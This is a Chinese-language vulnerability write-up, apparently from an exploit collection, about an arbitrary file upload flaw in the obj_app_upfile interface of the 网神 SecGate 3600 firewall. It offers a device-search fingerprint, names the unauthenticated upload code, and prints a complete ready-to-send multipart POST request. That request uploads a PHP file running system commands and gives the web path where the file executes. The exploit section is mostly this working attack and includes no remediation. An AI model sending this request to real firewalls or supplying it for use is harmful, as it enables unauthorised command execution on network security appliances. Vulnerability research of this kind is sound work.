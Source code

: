 # 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

<a-checkbox checked>网神 SecGate 3600 防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="1Lh1LHi6yfkhiO83I59AYg==" </a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649350287241-cdcc761f-1cb6-4bb5-befa-ed101065a8bf.png)

出现漏洞的文件 webui/modules/object/app.mds

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649487600829-f37244cf-d92a-4c43-845b-42b510536d21.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649487880029-bf876c08-7096-45a6-aafd-a94d7444bf9a.png)

```php
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问  attachements/xxx.php 文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649488185594-245e1a3e-604c-42a3-8096-c5e94a6315bd.png)